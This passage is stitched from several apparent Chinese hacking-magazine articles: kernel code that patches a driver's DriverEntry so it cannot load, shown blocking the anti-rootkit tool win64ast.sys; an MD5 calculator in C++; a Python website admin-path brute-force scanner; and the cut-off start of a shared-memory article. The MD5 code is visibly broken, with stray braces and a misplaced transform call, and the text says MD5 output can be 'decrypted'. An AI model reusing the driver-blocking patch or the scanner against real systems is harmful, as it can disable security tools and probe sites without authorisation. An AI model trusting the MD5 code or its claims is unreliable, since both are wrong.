不过这个变动与实现监控驱动加载的关系不大，我们只需要 IMAGE_INFO 的信息即可实现监控驱动加载。下面先讲解如何添加和删除“映像加载通告例程”。

```c
// 添加
PsSetLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)LoadImageNotifyRoutine);

// 删除
PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)LoadImageNotifyRoutine);
```

接下来讲如何获得加载驱动的信息。之前说过，这个通告例程不仅负责处理加载驱动，连进程加载 DLL 也负责，那我们怎么判断到底是加载驱动还是加载 DLL 呢？根据后缀名判断，很明显是一个很不好的方法。我的方法是，根据回调函数 LoadImageNotifyRoutine 的第二个参数判断，如果 PID 是 0，则表示加载驱动；如果 PID 为非零，则表示加载 DLL。原因很简单，之前说过这个函数很底层，到了一定的深度之后，就无法判断到底是谁主动引发的行为。因为一切都是系统的行为。当然，也可以认为这是通过回调来监控驱动加载的缺点。判断是驱动后，就通过 ImageInfo->ImageBase 来获取驱动的映像基址。如果不想让这个驱动加载，就通过 ImageBase 来获得 DriverEntry 的地址，写入如下汇编的机器码：

```asm
Mov eax, c0000022h    B8 22 00 00 C0
Ret                   C3
```

实现代码如下：

```c
PVOID GetDriverEntryByImageBase(PVOID ImageBase)
{
    PIMAGE_DOS_HEADER pDOSHeader;
    PIMAGE_NT_HEADERS64 pNTHeader;
    PVOID pEntryPoint;
    pDOSHeader = (PIMAGE_DOS_HEADER)ImageBase;
    pNTHeader = (PIMAGE_NT_HEADERS64)((ULONG64)ImageBase + pDOSHeader->e_lfanew);
    pEntryPoint = (PVOID)((ULONG64)ImageBase + pNTHeader->OptionalHeader.AddressOfEntryPoint);
    return pEntryPoint;
}

void DenyLoadDriver(PVOID DriverEntry)
{
    UCHAR fuck[] = "\xB8\x22\x00\x00\xC0\xC3";
    VxkCopyMemory(DriverEntry, fuck, sizeof(fuck));
}

VOID LoadImageNotifyRoutine
(
    __in_opt PUNICODE_STRING FullImageName,
    __in HANDLE ProcessId,
    __in PIMAGE_INFO ImageInfo
)
{
    PVOID pDrvEntry;
    char szFullImageName[260] = {0};
    if (FullImageName != NULL && MmIsAddressValid(FullImageName))
    {
        if (ProcessId == 0)
        {
            DbgPrint("[LoadImageNotifyX64]%wZ\n", FullImageName);
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            DbgPrint("[LoadImageNotifyX64]DriverEntry: %p\n", pDrvEntry);
            UnicodeToChar(FullImageName, szFullImageName);
            if (strstr(_strlwr(szFullImageName), "win64ast.sys"))
            {
                DbgPrint("Deny load [WIN64AST.SYS]");
                // 禁止加载 win64ast.sys
                DenyLoadDriver(pDrvEntry);
            }
        }
    }
}
```

有些读者心中可能想问，为什么拒绝加载驱动处仍然是“mov eax, c0000022h”而不“mov rax, c0000022h”？这是因为 NTSTATUS 其实就是 long 的马甲，而 long 的长度在 Win64 系统下依然是 4 字节而不是 8 字节，所以用“mov eax”足矣。如果对通过 ImageBase 获得 DriverEntry 不理解，可以参考我以前的拙文《初步探索 PE32+格式文件》。最后实现的效果如图 1 所示，效果为监视所有的驱动加载并拒绝名为 win64ast.sys 的驱动加载。

图 1

### MD5 算法设计与编程实现

文/图 张少飞

加密技术与我们的日常生活息息相关，在信息社会更是凸显重要。本文将主要就 MD5 算法及密码学算法实现做一些相关探讨。MD5 的全称是 message-digest algorithm 5（信息-摘要算法）。由于其使用不需要支付任何版权费用，安全性好，所以 MD5 成为了当今非常流行的优秀的典型 Hash 加密技术。为了使自己能够对 MD5 加深理解，本文将利用 VC++ 编程实现 MD5 加密过程，在软件实现上，提供了友好的界面，能够实现字符串和文件加密。

#### 算法描述

算法输入一个字节串，每个字节 8 个 bit，算法的执行分为以下几个步骤：

第一步，补位。  
MD5 算法先对输入的数据进行补位，使得数据的长度（以 byte 为单位）对 64 求余的结果是 56。即数据扩展至 LEN=K*64+56 个字节，K 为整数。  
补位方法：补一个 1，然后补 0 至满足上述要求。相当于补一个 0x80 的字节，再补值为 0 的字节。这一步总共补充的字节数为 0～63 个。

第二步，附加数据长度。  
用一个 64 位的整数表示数据的原始长度（以 bit 为单位），将这个数字的 8 个字节按低位在前、高位在后的顺序附加在补位后的数据后面。此时，数据被填补后的总长度为：LEN=K*64+56+8=(K+1)*64 Bytes。注意，64 位整数是输入数据的原始长度，而不是填充字节后的长度。

第三步，初始化 MD5 参数。  
有 4 个 32 位整数变量（A、B、C、D）用来计算信息摘要，每一个变量被初始化成以下以十六进制数表示的数值，低位字节在前面。

- word A: 01 23 45 67
- word B: 89 ab cd ef
- word C: fe dc ba 98
- word D: 76 54 32 10

注意，低位字节在前面指的是 Little Endian 平台上内存中字节的排列方式，而在程序中书写时，要写成：

- A=0x67452301
- B=0xefcdab89
- C=0x98badcfe
- D=0x10325476

第四步，定义 4 个 MD5 基本的按位操作函数。  
X、Y、Z 为 32 位整数。

```text
F(X,Y,Z) = (X and Y) or (not(X) and Z)
G(X,Y,Z) = (X and Z) or (Y and not(Z))
H(X,Y,Z) = X xor Y xor Z
I(X,Y,Z) = Y xor (X or not(Z))
```

再定义 4 个分别用于四轮变换的函数。  
设 Mj 表示消息的第 j 个子分组（从 0 到 15），<<<s 表示循环左移 s 位，则四种操作为：

```text
FF(a,b,c,d,Mj,s,ti) 表示 a=b+((a+(F(b,c,d)+Mj+ti))<<<s)
GG(a,b,c,d,Mj,s,ti) 表示 a=b+((a+(G(b,c,d)+Mj+ti))<<<s)
HH(a,b,c,d,Mj,s,ti) 表示 a=b+((a+(H(b,c,d)+Mj+ti))<<<s)
II(a,b,c,d,Mj,s,ti) 表示 a=b+((a+(I(b,c,d)+Mj+ti))<<<s)


```

第五步，对输入数据作变换。  
处理数据，N 是总的字节数，以 64 个字节为一组，每组作一次循环，每次循环进行四轮操作。要变换的 64 个字节用 16 个 32 位的整数数组 M[0...15] 表示，而数组 T[1...64] 表示一组常数，T[i] 为 4294967296*abs(sin(i)) 的 32 位整数部分，i 的单位是弧度，i 的取值从 1 到 64。

#### 设计任务

在设计任务中，加密软件具有以下功能：

- A：加密软件具有良好的用户界面；
- B：能够对字符串进行加密；
- C：能够对文件进行加密；
- D：对于文件加密，大于 10M 的文件能够显示进度条；
- F：在没有选择加密类型时，必须先选择才能进行加密；
- H：界面要简练，输出、输入表示要明确，尽量做到通俗易懂。

#### 系统流程
## 部分代码说明

本程序主要由 ZMD5.cpp 和 MyMD5Dlg.cpp 文件构成，前者是 MD5 算法的实现，后者用于界面的控制和文件选择。以下是这两个文件的关键代码。

### 1. ZMD5.cpp 关键代码

```cpp
unsigned int ZMD5::ROTATE_LEFT(unsigned int x,unsigned int n)
{
    return (((x) << (n)) | ((x) >> (32-(n))));
}

unsigned int ZMD5::F(unsigned int x,unsigned int y,unsigned int z)
{
    return ((x & y) | ((~x) & z));
}

unsigned int ZMD5::G(unsigned int x,unsigned int y,unsigned int z)
{
    return ((x & z) | (y & (~z)));
}

unsigned int ZMD5::H(unsigned int x,unsigned int y,unsigned int z)
{
    return x ^ y ^ z;
}

unsigned int ZMD5::I(unsigned int x,unsigned int y,unsigned int z)
{
    return (y ^ (x | (~z)));
}

void ZMD5::FF(unsigned int& a,unsigned int b,unsigned int c,unsigned int d,unsigned int x,int s,unsigned int ac)
{
    (a) += F ((b), (c), (d)) + (x) + (ac);
    (a) = ROTATE_LEFT ((a), (s));
    (a) += (b);
}

void ZMD5::GG(unsigned int& a,unsigned int b,unsigned int c,unsigned int d,unsigned int x,int s,unsigned int ac)
{
    (a) += G ((b), (c), (d)) + (x) + (ac);
    (a) = ROTATE_LEFT ((a), (s));
    (a) += (b);
}

void ZMD5::HH(unsigned int& a,unsigned int b,unsigned int c,unsigned int d,unsigned int x,int s,unsigned int ac)
{
    (a) += H ((b), (c), (d)) + (x) + (ac);
    (a) = ROTATE_LEFT ((a), (s));
    (a) += (b);
}

void ZMD5::II(unsigned int& a, unsigned int b, unsigned int c, unsigned int d, unsigned int x, int s, unsigned int ac)
{
    (a) += I ((b), (c), (d)) + (x) + (ac);
    (a) = ROTATE_LEFT ((a), (s));
    (a) += (b);
}

void ZMD5::Init()
{
    S11 = 7;   S21 = 5;   S31 = 4;   S41 = 6;
    S12 = 12;  S22 = 9;   S32 = 11;  S42 = 10;
    S13 = 17;  S23 = 14;  S33 = 16;  S43 = 15;
    S14 = 22;  S24 = 20;  S34 = 23;  S44 = 21;
    A = 0x67452301;  // in memory, this is 0x01234567
    B = 0xEFCDAB89;  // in memory, this is 0x89ABCDEF
    C = 0x98BADCFE;  // in memory, this is 0xFEDCBA98
    D = 0x10325476;  // in memory, this is 0x76543210
}

void ZMD5::Append(unsigned int MsgLen)
{
    // 计算要补位的字节数
    int m = MsgLen % 64;
    if (m == 0)
        m_AppendByte = 56;
    else if (m < 56)
        m_AppendByte = 56 - m;
    else
        m_AppendByte = 64 - m + 56;

    // 截取传入长度的高十六位和低十六位
    int hWord = (MsgLen & 0xFFFF0000) >> 16;
    int lWord = MsgLen & 0x0000FFFF;

    // 将低十六位和高十六位分别乘以八(1byte=8bit)
    int hDiv = hWord * 8;
    int lDiv = lWord * 8;

    m_MsgLen[0] = lDiv & 0xFF;
    m_MsgLen[1] = (lDiv >> 8) & 0xFF;
    m_MsgLen[2] = ((lDiv >> 16) & 0xFF) | (hDiv & 0xFF);
    m_MsgLen[3] = (hDiv >> 8) & 0xFF;
    m_MsgLen[4] = (hDiv >> 16) & 0xFF;
    m_MsgLen[5] = (hDiv >> 24) & 0xFF;
    m_MsgLen[6] = 0;
    m_MsgLen[7] = 0;
}

void ZMD5::Transform(unsigned char Block[64])
{
    // 将64字节位转换为16个字节
    unsigned long x[16];
    for (int i=0, j=0; j<64; i++, j+=4)
        x[i]=Block[j] | Block[j+1] <<8 | Block[j+2] <<16 | Block[j+3] <<24 ;
    // 初始化临时寄存器变量
    unsigned int a,b,c,d;
    a=A;  b=B;  c=C;  d=D;
    // 第一轮计算
    FF (a, b, c, d, x[ 0], S11, 0xD76AA478); //  1
    FF (d, a, b, c, x[ 1], S12, 0xE8C7B756); //  2
    FF (c, d, a, b, x[ 2], S13, 0x242070DB); //  3
    FF (b, c, d, a, x[ 3], S14, 0xC1BDCEEE); //  4
    FF (a, b, c, d, x[ 4], S11, 0xF57C0FAF); //  5
    FF (d, a, b, c, x[ 5], S12, 0x4787C62A); //  6
    FF (c, d, a, b, x[ 6], S13, 0xA8304613); //  7
    FF (b, c, d, a, x[ 7], S14, 0xFD469501); //  8
    FF (a, b, c, d, x[ 8], S11, 0x698098D8); //  9
    FF (d, a, b, c, x[ 9], S12, 0x8B44F7AF); // 10
    FF (c, d, a, b, x[10], S13, 0xFFFF5BB1); // 11
    FF (b, c, d, a, x[11], S14, 0x895CD7BE); // 12
    FF (a, b, c, d, x[12], S11, 0x6B901122); // 13
    FF (d, a, b, c, x[13], S12, 0xFD987193); // 14
    FF (c, d, a, b, x[14], S13, 0xA679438E); // 15
    FF (b, c, d, a, x[15], S14, 0x49B40821); // 16
    // 第二轮计算
    GG (a, b, c, d, x[ 1], S21, 0xF61E2562); // 17
    GG (d, a, b, c, x[ 6], S22, 0xC040B340); // 18
    GG (c, d, a, b, x[11], S23, 0x265E5A51); // 19
    GG (b, c, d, a, x[ 0], S24, 0xE9B6C7AA); // 20
    GG (a, b, c, d, x[ 5], S21, 0xD62F105D); // 21
    GG (d, a, b, c, x[10], S22, 0x2441453);  // 22
    GG (c, d, a, b, x[15], S23, 0xD8A1E681); // 23
    GG (b, c, d, a, x[ 4], S24, 0xE7D3FBC8); // 24
    GG (a, b, c, d, x[ 9], S21, 0x21E1CDE6); // 25
    GG (d, a, b, c, x[14], S22, 0xC33707D6); // 26
    GG (c, d, a, b, x[ 3], S23, 0xF4D50D87); // 27
    GG (b, c, d, a, x[ 8], S24, 0x455A14ED); // 28
    GG (a, b, c, d, x[13], S21, 0xA9E3E905); // 29
    GG (d, a, b, c, x[ 2], S22, 0xFCEFA3F8); // 30
    GG (c, d, a, b, x[ 7], S23, 0x676F02D9); // 31
    GG (b, c, d, a, x[12], S24, 0x8D2A4C8A); // 32
    // 第三轮计算
    HH (a, b, c, d, x[ 5], S31, 0xFFFA3942); // 33
    HH (d, a, b, c, x[ 8], S32, 0x8771F681); // 34
    HH (c, d, a, b, x[11], S33, 0x6D9D6122); // 35
    HH (b, c, d, a, x[14], S34, 0xFDE5380C); // 36
    HH (a, b, c, d, x[ 1], S31, 0xA4BEEA44); // 37
    HH (d, a, b, c, x[ 4], S32, 0x4BDECFA9); // 38
    HH (c, d, a, b, x[ 7], S33, 0xF6BB4B60); // 39
    HH (b, c, d, a, x[10], S34, 0xBEBFBC70); // 40
    HH (a, b, c, d, x[13], S31, 0x289B7EC6); // 41
    HH (d, a, b, c, x[ 0], S32, 0xEAA127FA); // 42
    HH (c, d, a, b, x[ 3], S33, 0xD4EF3085); // 43
    HH (b, c, d, a, x[ 6], S34, 0x4881D05); // 44
    HH (a, b, c, d, x[ 9], S31, 0xD9D4D039); // 45
    HH (d, a, b, c, x[12], S32, 0xE6DB99E5); // 46
    HH (c, d, a, b, x[15], S33, 0x1FA27CF8); // 47
    HH (b, c, d, a, x[ 2], S34, 0xC4AC5665); // 48
    // 第四轮计算
    II (a, b, c, d, x[ 0], S41, 0xF4292244); // 49
    II (d, a, b, c, x[ 7], S42, 0x432AFF97); // 50
    II (c, d, a, b, x[14], S43, 0xAB9423A7); // 51
    II (b, c, d, a, x[ 5], S44, 0xFC93A039); // 52
    II (a, b, c, d, x[12], S41, 0x655B59C3); // 53
    II (d, a, b, c, x[ 3], S42, 0x8F0CCC92); // 54
    II (c, d, a, b, x[10], S43, 0xFFEFF47D); // 55
    II (b, c, d, a, x[ 1], S44, 0x85845DD1); // 56
    II (a, b, c, d, x[ 8], S41, 0x6FA87E4F); // 57
    II (d, a, b, c, x[15], S42, 0xFE2CE6E0); // 58
    II (c, d, a, b, x[ 6], S43, 0xA3014314); // 59
    II (b, c, d, a, x[13], S44, 0x4E0811A1); // 60
    II (a, b, c, d, x[ 4], S41, 0xF7537E82); // 61
    II (d, a, b, c, x[11], S42, 0xBD3AF235); // 62
    II (c, d, a, b, x[ 2], S43, 0x2AD7D2BB); // 63
    II (b, c, d, a, x[ 9], S44, 0xEB86D391); // 64
    // 保存当前寄存器结果
    A+=a; B+=b; C+=c; D+=d;
}

string ZMD5::ToHex(bool UpperCase)
{
    string strResult;
    int ResultArray[4]={A,B,C,D};
    char Buf[33]={0};
    for(int i=0;i<4;i++)
    {
        memset(Buf,0,3);
        sprintf(Buf,"%02x",ResultArray[i] & 0x00FF);
        strResult+=Buf;
        memset(Buf,0,3);
        sprintf(Buf,"%02x",(ResultArray[i] >> 8) & 0x00FF);
        strResult+=Buf;
        memset(Buf,0,3);
        sprintf(Buf,"%02x",(ResultArray[i] >> 16) & 0x00FF);
        strResult+=Buf;
        memset(Buf,0,3);
        sprintf(Buf,"%02x",(ResultArray[i] >> 24) & 0x00FF);
        strResult+=Buf;
    }
    if(UpperCase) CharUpper((char *)strResult.c_str());
    return strResult;
}

string ZMD5::GetMD5OfString(string InputMessage,bool UpperCase)
{
    // 初始化 MD5 所需常量
    Init();
    // 计算追加长度
    Append(InputMessage.length());
    // 对原始信息进行补位
    for(int i=0;i<m_AppendByte;i++)
    {
        if(i==0) InputMessage+=(unsigned char)0x80;
        else InputMessage+=(unsigned char)0x0;
    }
    // 将原始信息长度附加在补位后的数据后面
    for(int i=0;i<8;i++) InputMessage+=m_MsgLen[i];
    // 位块数组
    unsigned char x[64]={0};
    // 循环，将原始信息以 64 字节为一组拆分进行处理
    for(int i=0,Index=-1;i<InputMessage.length();i++)
    {
        x[++Index]=InputMessage[i];
        if(Index==63)
        {
            Index=-1;
        }
    }

    Transform(x);
    }
}
return ToHex(UpperCase);
}

string ZMD5::GetMD5OfFile(const string FileName, bool UpperCase)
{
    // 定义读取文件的缓冲区
    char* ReadBuf =new char[FILE_BUFFER_READ+1];
    memset(ReadBuf, 0, FILE_BUFFER_READ);
    try
    {
        // 检查文件是否存在
        if((_access(FileName.c_str(),0 )) == -1) return "";
        // 二进制方式读取文件
        if(m_pFile=fopen(FileName.c_str(), "rb"), m_pFile==NULL) return "";
        m_FileOpen=true;
        // 获取文件大小
        unsigned long FileSize=0xFFFF;
        WIN32_FIND_DATA win32_find_data;
        HANDLE hFile;
        if((hFile=FindFirstFile(FileName.c_str(),&win32_find_data))!=INVALID_HANDLE_VALUE)
        {
            if(hFile==NULL) return "";
            if(FileSize=win32_find_data.nFileSizeLow, FileSize==0xFFFF || FileSize==0) return "";
            FindClose(hFile);
        }
        // 初始化 MD5 所需常量
        Init();
        // 通过文件长度计算追加长度
        Append(FileSize);
        // 位块数组
        unsigned char x[64]={0};
        // 本次读取字节数
        int ReadSize=fread(ReadBuf, 1, FILE_BUFFER_READ, m_pFile);
        // 读取次数
        int ReadCount=0;
        while (ReadSize==FILE_BUFFER_READ)
        {
            /*
            如果用户开启了另一个线程调用此函数，则允许用户从外部结束此函数。
            为安全起见，没有在这个类的内部开启线程，可以最大限度地保证文件安全关闭。
            */
            if(!m_FileOpen)
```

```cpp
{
    fclose(m_pFile);
    return "";
}
// 将处理进度返回给用户
ReadCount++;
OnProcessing((int)(FILE_BUFFER_READ * ReadCount / (FileSize / 100)));

// 将原始信息以 64 字节为一组拆分进行处理
for(int i=0, Index=-1; i<FILE_BUFFER_READ; i++)
{
    x[++Index]=ReadBuf[i];
    if(Index==63)
    {
        Index=-1;
        Transform(x);
    }
}
memset(ReadBuf, 0, FILE_BUFFER_READ);  // 重置缓冲区
ReadSize=fread(ReadBuf, 1, FILE_BUFFER_READ, m_pFile);
} // end while

/* 处理不能被整除的剩余部分数据，此时要对剩余部分数据进行补位及原始
信息长度追加。如果最后一次读取数据的长度为零，说明文件已被读完，则直接将补位数据
及原信息长度送入 Transform 处理。*/
if(ReadSize==0)
{
    string strData;
    for(int i=0; i<m_AppendByte; i++)
    {
        if(i==0) strData+=(unsigned char)0x80;
        else strData+=(unsigned char)0x0;
    }
    for(int i=0; i<8; i++) strData+=m_MsgLen[i];
    for(int i=0, Index=-1; i<strData.length(); i++)
    {
        x[++Index]=strData[i];
        if(Index==63)
        {
            Index=-1;
            Transform(x);
        }
    }
}
else // 将剩余数据处理完再补位
{
    for(int i=0, Index=-1; i<ReadSize+m_AppendByte+8; i++)
    {
        // 将原始信息以 64 字节为一组，进行拆分处理
        if(i<ReadSize)
            x[++Index]=ReadBuf[i];
        else if(i==ReadSize)
            x[++Index]=(unsigned char)0x80;
        else if(i<ReadSize+m_AppendByte)
            x[++Index]=(unsigned char)0x0;
        else if(i==ReadSize+m_AppendByte)
            x[++Index]=m_MsgLen[0];
        else if(i==ReadSize+m_AppendByte+1)
            x[++Index]=m_MsgLen[1];
        else if(i==ReadSize+m_AppendByte+2)
            x[++Index]=m_MsgLen[2];
        else if(i==ReadSize+m_AppendByte+3)
            x[++Index]=m_MsgLen[3];
        else if(i==ReadSize+m_AppendByte+4)
            x[++Index]=m_MsgLen[4];
        else if(i==ReadSize+m_AppendByte+5)
            x[++Index]=m_MsgLen[5];
        else if(i==ReadSize+m_AppendByte+6)
            x[++Index]=m_MsgLen[6];
        else if(i==ReadSize+m_AppendByte+7)
            x[++Index]=m_MsgLen[7];

        if(Index==63)
        {
            Index=-1;
            Transform(x);
        }
    }

    OnProcessing(100);   // 处理进度百分之百
    fclose(m_pFile);     // 关闭文件
    m_FileOpen=false;    // 文件打开状态为 false
    delete[] ReadBuf;    // 释放动态申请的内存
}
catch(...)
{
    if(m_FileOpen)
        fclose(m_pFile); // 关闭文件
    m_FileOpen=false;    // 文件打开状态为 false
    delete[] ReadBuf;    // 释放动态申请的内存
}

return "";
}
return ToHex(UpperCase);
}
void ZMD5::GetMD5OfFile_Terminate()
{
    if(m_FileOpen) m_FileOpen=false;
}
```

## 2. MyMD5Dlg.cpp 关键代码

```cpp
void CMyMD5Dlg::OnBtnCalculation()
{
    // 取“计算”按钮文字，如果上面的文字为“停止”，则停止当前信息的 MD5 计算
    CString strButton;
    int selected;
    selected=GetCheckedRadioButton(IDC_RADIO_1, IDC_RADIO_2);
    GetDlgItemText(IDC_BTN_CALCULATION, strButton);
    if(strButton=="停止")
    {
        SetDlgItemText(IDC_EDIT_RESULT, "");
        md5.GetMD5OfFile_Terminate();
        SetDlgItemText(IDC_BTN_CALCULATION, "计算");
        ((CProgressCtrl*)GetDlgItem(IDC_PROGRESS))->ShowWindow(SW_HIDE);
        return;
    }
    // 清空结果文本框
    SetDlgItemText(IDC_EDIT_RESULT, "");
    // 获取待计算 MD5 的文件数据
    CString strInput;
    GetDlgItemText(IDC_EDIT_SOURCE, strInput);
    // 获取待计算 MD5 的字符串数据
    CString strInput2;
    GetDlgItemText(IDC_EDIT_SOURCE2, strInput2);
    // 如果原信息类型为字符串
    if(selected==IDC_RADIO_1)
    {
        SetDlgItemText(IDC_EDIT_RESULT,
            md5.GetMD5OfString((LPSTR)(LPCTSTR)strInput2, true).c_str());
    }
    // 如果原信息类型为文件
    else if(selected==IDC_RADIO_2)
    {
        // 如果文件为空，显示选择文件对话框
        if(m_File.empty())
        {
            OnBtnSelect();
            return ;
        }
        // 检查文件是否存在
        else if((_access((char*)(LPCTSTR)strInput, 0)) == -1)
        {
            AfxMessageBox("文件不存在!");
            return ;
        }
        else
        {
            // 计算文件大小
            unsigned long FileSize=0xFFFFFFFF;
            WIN32_FIND_DATA win32_find_data;
            HANDLE hFile;

            if((hFile=FindFirstFile((char*)(LPCTSTR)strInput,&win32_find_data))!=INVALID_HANDLE_VALUE)
            {
                FindClose(hFile);

                if(FileSize=win32_find_data.nFileSizeLow,FileSize==0xFFFFFFFF||FileSize==0)
                    return ;
            }
            // 文件大于等于 10M，显示处理进度条
            if(FileSize>=10485760)
            {
                // 显示处理进度条
                m_Processing.SetPos(0);
                ((CProgressCtrl*)GetDlgItem(IDC_PROGRESS))->ShowWindow(SW_SHOW);

                // 将“计算”按钮上的文字变成“停止”
                SetDlgItemText(IDC_BTN_CALCULATION,"停止");
                // 开启一个线程用于计算 MD5，以免造成假死现象
                hThread=CreateThread(NULL, 0,
                    (LPTHREAD_START_ROUTINE)m_thunk.CallBack(this,
                    &CMyMD5Dlg::ProcessingThread, ZThunk::THISCALL),
                    0, 0, &dwThreadId);
            }
            // 文件小于 10M，直接进行 MD5 计算，不开启线程，因为计算时间很短
            else
            {
                SetDlgItemText(IDC_EDIT_RESULT,
                    md5.GetMD5OfFile((LPSTR)(LPCTSTR)strInput,true).c_str());
            }
        }
    }
    else
        AfxMessageBox("请选择输入类型，“字符串” 或 “文件” !");
}

void CMyMD5Dlg::OnBtnAbout()
{
    CAboutDlg dlg;
    dlg.DoModal();
}

// 处理 WM_RETURN（回车）和 WM_VK_ESCAPE（取消）
BOOL CMyMD5Dlg::PreTranslateMessage(MSG* pMsg)
{
    if (pMsg->message==WM_KEYDOWN)
    {
        switch(pMsg->wParam)
        {
        case VK_ESCAPE:
            return TRUE;
        case VK_RETURN:
            return TRUE;
        default:
            break;
        }
    }
    return CDialog::PreTranslateMessage(pMsg);
}

DWORD CMyMD5Dlg::ProcessingThread(LPVOID lpParameter)
{
    CString strInput;
    GetDlgItemText(IDC_EDIT_SOURCE, strInput);
    SetDlgItemText(IDC_EDIT_RESULT,
        md5.GetMD5OfFile((LPSTR)(LPCTSTR)strInput,true).c_str());
    return 1;
}

LRESULT CMyMD5Dlg::OnProcessing(WPARAM wParam, LPARAM lParam)
{
    m_Processing.SetPos((int)wParam);
    if((int)wParam==100)
    {
        // 隐藏 CProgressCtrl 控件
        ((CProgressCtrl*)GetDlgItem(IDC_PROGRESS))->ShowWindow(SW_HIDE);
        // 将“停止”按钮上的文字变成“计算”
        SetDlgItemText(IDC_BTN_CALCULATION, "计算");
    }
    return 1;
}

// 选择字符串加密功能
void CMyMD5Dlg::OnRadio_1()
{
    // TODO: Add your control notification handler code here
    UpdateData(TRUE);
    GetDlgItem(IDC_OPEN)->EnableWindow(false);
    GetDlgItem(IDC_EDIT_SOURCE)->EnableWindow(false);
    GetDlgItem(IDC_EDIT_SOURCE2)->EnableWindow(true);
    SetDlgItemText(IDC_EDIT_SOURCE2, "");
}

// 选择文件加密功能
void CMyMD5Dlg::OnRadio_2()
{
    // TODO: Add your control notification handler code here
    UpdateData(TRUE);
    GetDlgItem(IDC_OPEN)->EnableWindow(true);
    GetDlgItem(IDC_EDIT_SOURCE)->EnableWindow(true);
    GetDlgItem(IDC_EDIT_SOURCE2)->EnableWindow(false);
    SetDlgItemText(IDC_EDIT_SOURCE, "");
}

// 文件打开按钮
void CMyMD5Dlg::OnOpen()
{
    // TODO: Add your control notification handler code here
    ZFileDialog fileDlg;
    deque<string> dqSelectFile = fileDlg.GetOpenFileName(FALSE, "所有文件(*.*)\0*.*\0\0");
    if (dqSelectFile.size() != 0)
    {
        m_File = dqSelectFile[0];
        SetDlgItemText(IDC_EDIT_SOURCE, m_File.c_str());
    }
}


```

#### 系统运行说明

本文件不需要安装，直接运行文件夹里面的 MyMD5.exe 文件，就会打开如图 1 所示的界面。

新手可以先看说明，如果对本程序已经了解，可以直接运行程序。接下来要做的就是选择输入的类型，当选择文件加密并且大小大于 10M 的时候，会出现如图 2 所示的界面（其他两种：如字符串和文件小于 10M 的请自己体验），最终的计算结果如图 3 所示。
图 1
图 2
图 3

#### 系统测试

- 1. **正确性测试**
  - 1) 字符串计算
    - 输入字符串：`123456789`
    - 计算结果为：`25F9E794323B453885F5181F1B624D0B`
    - 解密结果：`123456789`
    - 证明本程序能够正确地计算字符串的摘要。
  - 2) 文件计算
    - 在记事本中输入字符串“123456789”，保存为：“1.txt”。
    - 计算该文件结果为：`25F9E794323B453885F5181F1B624D0B`。
- 2. **性能测试**
  - 本程序能较快地完成摘要计算功能，对 100M 大小的文件，计算时间大约为 3 秒钟，对系统资源占用较小。

### Python 黑客编程：网站后台暴力破解

文/图 blackcool

在 Web 安全测试中，敏感路径及文件的探测是经常用到的技术，一般的扫描器如 AWVA、APPSCAN、JSKY 等都具有这个功能，但是各款扫描器中的路径及敏感文件字典各有不同，而扫描成功的主要因素就是字典的匹配度及工具的灵活性。成型的产品功能比较全面，运行起来也比较耗时，因此笔者就有了一个简单想法，用 Python 实现一个轻量级的网站后台暴力破解工具，这样我们就可以加载自己的字典来对网站后台进行猜解了。

扫描原理比较简单，首先组装敏感 URL，然后调用 urllib2.Request 发送请求，最后判断请求结果，如果结果为 urllib2.URLError 则退出，否则即为命中，并将命中结果输出。下面结合代码来看下实现过程。

主要函数是 urlcheck，用来完成对 URL 有效性的检测。首先是构造敏感 URL，完整的路径主要有三部分：用户输入的域名 + 敏感路径字典 + 文件后缀。先将这三部分进行组装，实现代码如下：

```python
def urlcheck(url,path,ext):
    ext='.'+ext
    req = urllib2.Request(url+path+ext)
```

得到完整 URL 后就可以进行请求测试了。先使用 urllib2.urlopen 发送 HTTP 请求，当返回结果为 urllib2.URLError 时，返回结果为假，否则为真。

```python
try:
    fp = urllib2.urlopen(req)
except urllib2.URLError:
    pass
    return (False,0)
else:
```

```python
return (True, url + path + ext)
```

通过 `urlcheck` 函数就可以完成敏感路径的有效性验证了。其他部分与之前《FTP 暴力破解》的框架基本相似，就不多说了，完整实现代码如下：

```python
# coding=utf-8

import urllib2
import sys
import getopt

def urlcheck(url, path, ext):
    ext = '.' + ext
    req = urllib2.Request(url + path + ext)
    try:
        fp = urllib2.urlopen(req)
    except urllib2.URLError:
        pass
        return (False, 0)
    else:
        return (True, url + path + ext)

def usage():
    print "[!] Usage      : %s -u <url> -e <extend> " % sys.argv[0]
    print "[!] Example    : %s -u http://www.google.com/ -e asp " % sys.argv[0]
    raise SystemExit

def main():
    _path_list = ["admin", "admin/admin", "admin/index", "admin/login", "login", "login/admin", "login/index"]
    opts, args = getopt.getopt(sys.argv[1:], 'e:u:')
    for o, a in opts:
        if o == '-u':
            url = a
        if o == '-e':
            ext = a
    _result = []
    print
    for path in _path_list:
        ck = urlcheck(url, path, ext)
        print "[+] Trying %s" % (url + path + '.' + ext)
        if ck[0]:
            _result.append(ck[1])

    print "[!] Done\n"
    print "==============================================================="
    print "[!] The adminpath maybe following items:\n"
    for index, result in enumerate(_result):
        print "%2d: %s" % (index + 1, result)
    print

if __name__ == "__main__":
    main()


```

下面我们测试下这段代码是否好用，结果如图 1 所示。
（图 1）

这样，利用 Python 编写一款简单的后台暴力破解器就完成了，希望以后有机会和大家交流分享更多更有趣的 Python hacking 代码。

### 共享内存的奥秘

文/图 王晓松

在互联网兴盛之初，BBS 曾火爆一时，大家都可以在这块共享的领地分享自己的故事和心情。在计算机的世界里，如果把每个进程比作一个人，那么它们之间交流的手段又是什么呢？就是我们下面要介绍的 Windows 中的共享内存机制。

## 在应用层面共享内存的使用

我们知道，在 Windows 中每个进程的地址空间都是相互独立的。换句话说，对于两个进程同样的虚拟地址，背后映射的物理内存并不相同（内核地址空间例外）。但有时会有这样的需求，要将两个进程中不同或者相同的地址映射为同一块物理内存，这样做的目的可以是：

- 1）这段内存是不可修改的可执行程序，两个进程使用同样的代码。简单的例子就是打开两个 Word 进程，其处理的文档可能不同，但是 Word 本身的代码是可以共用的，代码段的物理内存可以共用。
- 2）将一块相同的物理内存映射到不同的进程后，这两个进程可以通过这段物理内存实现进程之间的通信。

以上是共享内存标准的用法，但在实际应用中，共享内存还可以用于文件的映射，即将一个文件的一块区域映射到某一进程的地址空间内，该进程对文件的操作就转换为对内存（编程中表现为对数组）的操作，这样可以有效地减少 I/O 操作的数量，提高效率。

为了让大家对共享内存有个初步的概念，我们先看看编程世界里对共享内存的使用方法，标准步骤如下：

```text
